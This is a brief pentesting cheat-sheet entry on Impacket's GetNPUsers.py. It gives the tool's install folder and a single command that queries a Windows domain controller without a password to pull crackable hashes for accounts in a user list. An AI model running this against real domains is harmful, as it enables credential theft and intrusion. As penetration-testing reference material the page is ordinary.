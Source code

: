 ```yaml
---
title: Impacket GetNPUsers.py
description: Windows
---
```

### Folder
```bash
/usr/share/doc/python3-impacket/examples
```
Impacket GetNPUsers.py to obtain hashes of valid users, the output will be a user with their hash.
```tsx
python3 GetNPUsers.py -no-pass -usersfile users.txt -dc-ip <target ip> <domain>  // [!code highlight]
```